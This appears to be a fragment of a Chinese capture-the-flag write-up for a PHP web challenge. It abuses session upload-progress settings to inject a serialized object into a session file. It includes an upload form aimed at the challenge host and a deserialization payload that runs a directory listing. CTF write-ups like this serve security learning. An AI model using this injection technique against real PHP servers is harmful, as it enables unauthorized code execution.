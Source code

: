 

查看phpinfo中的几个关键值

- session.use_strict_mode	Off 表示我们可以控制session文件名

- session.upload_progress.enabled	On 表示我们可以通过文件上传写入session文件

- session.upload_progress.cleanup	Off 表示在上传成功后不会删除session文件，所以这道题不需要条件竞争

- session.upload_progress.name	PHP_SESSION_UPLOAD_PROGRESS 默认值

  



构造POST提交表单

```php
<form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```



payload：

```php
|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:36:\"print_r(scandir(dirname(__FILE__)));\";}
```



![image-20200911152146508](assets/image-20200911152146508.png)



- filename防止出错应该对双引号进行转义
- 再次访问的时候别忘了加上sessionid，不然每次都是新的session 
